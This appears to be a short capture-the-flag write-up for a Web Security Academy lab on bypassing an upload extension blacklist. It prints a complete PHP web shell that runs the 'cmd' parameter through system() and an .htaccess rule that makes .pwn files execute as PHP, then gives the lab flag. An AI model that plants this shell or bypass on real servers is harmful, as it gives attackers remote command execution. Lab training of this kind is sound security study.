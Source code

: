 # Web shell upload via extension blacklist bypass

## Discovery:

URL: https://0a09009f03727c90837c658400d500e0.web-security-academy.net/my-account?id=wiener

![](./Images/img1.png)

```
└─$ cat shell.pwn                                                                
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

```
└─$ cat .htaccess                           
<FilesMatch "\.pwn$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

![](./Images/img2.png)

![](./Images/img3.png)

![](./Images/img4.png)

# Flag:

```
QQxUzRBENVnHzPMJCkwBK6wTSDQW6sdf
```